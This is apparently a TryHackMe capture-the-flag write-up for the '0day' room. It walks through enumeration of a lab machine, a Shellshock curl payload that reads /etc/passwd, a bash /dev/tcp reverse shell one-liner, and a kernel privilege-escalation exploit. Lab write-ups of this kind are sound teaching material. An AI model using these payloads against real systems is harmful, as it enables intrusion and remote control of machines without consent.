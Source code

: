 ```yaml
---
title: "TryHackMe - 0day"
author: Nasrallah
description: ""
date: 2022-10-11 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, nikto, cve]
img_path: /assets/img/tryhackme/0day
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [0day](https://tryhackme.com/room/0day) from [TryHackMe](https://tryhackme.com). We exploit a shell shock vulnerability and get a reverse shell on the target, then we exploit an oudated kernel version to get root. 

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.220.92
Host is up (0.092s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports on a Ubuntu machine, first one is port 22 running OpenSSH 6.6.1p1, the other port is 80 running an Apache web server version 2.4.7.

### Web

Let's navigate to the webpage.

![](1.png)

Found some information about Ryan Montgomery with some social media accounts of his.

### Gobuster

Let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.220.92/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/23 04:23:16 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 288]
/.htpasswd            (Status: 403) [Size: 288]
/admin                (Status: 301) [Size: 311] [--> http://10.10.220.92/admin/]
/backup               (Status: 301) [Size: 312] [--> http://10.10.220.92/backup/]
/cgi-bin              (Status: 301) [Size: 313] [--> http://10.10.220.92/cgi-bin/]
/cgi-bin/             (Status: 403) [Size: 287]                                   
/css                  (Status: 301) [Size: 309] [--> http://10.10.220.92/css/]    
/img                  (Status: 301) [Size: 309] [--> http://10.10.220.92/img/]    
/js                   (Status: 301) [Size: 308] [--> http://10.10.220.92/js/]     
/robots.txt           (Status: 200) [Size: 38]                                    
/secret               (Status: 301) [Size: 312] [--> http://10.10.220.92/secret/] 
/server-status        (Status: 403) [Size: 292]                                   
/uploads              (Status: 301) [Size: 313] [--> http://10.10.220.92/uploads/]
===============================================================
```

We found a couple of directories that we can't access and robots.txt doesn't help us that much.

### Nikto

Let's run a Nikto scan.

```terminal
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.220.92
+ Target Hostname:    10.10.220.92
+ Target Port:        80
+ Start Time:         2022-08-23 04:45:26 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /backup/: This might be interesting...
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3092: /cgi-bin/test.cgi: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ /admin/index.html: Admin login page/section found.
+ 8699 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2022-08-23 04:59:54 (GMT-4) (868 seconds)
---------------------------------------------------------------------------
```

Nikto found a shellshock vulnerability in `/cgi-bin/test.cgi`.

## **Foothold**

To exploit this vulnerability, we need to make a get request to `/cgi-bin/test.cgi` with the following user-agent: `() { :;}; echo; command`.

We can do that using `curl`.

```bash
$ curl -A "() { :;}; echo; /bin/cat /etc/passwd" http://10.10.94.235/cgi-bin/test.cgi
```

```terminal
$ curl -A "() { :;}; echo; /bin/cat /etc/passwd" http://10.10.94.235/cgi-bin/test.cgi
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
ryan:x:1000:1000:Ubuntu 14.04.1,,,:/home/ryan:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin

```

We got command execution on the target and found user named ryan.

Looking through the directories and files of the web server we find the following.

![](3.png)

Got a private ssh key that probably belongs to `ryan`.

Couldn't connect with the ssh key, so i just got a reverse shell with the following command:

```bash
/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

![](2.png)

## **Privilege Escalation**

After stabilizing the shell with python pty, we run the command `uname -a` to find this

```terminal
www-data@ubuntu:/usr/lib/cgi-bin$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

The kernel look outdated. Searching for exploits in this version we find [this](https://www.exploit-db.com/exploits/37292).

Let's upload the exploit to the target, compile it and run it.

![](4.png)

We encountered a problem of `gcc` not being able to find `cc1`, we solved that by changing the PATH variable with the following:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

>Credits to `muirlandoracle`, check his [writeup](https://muirlandoracle.co.uk/2020/09/03/0day-writeup/).

And just like that we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
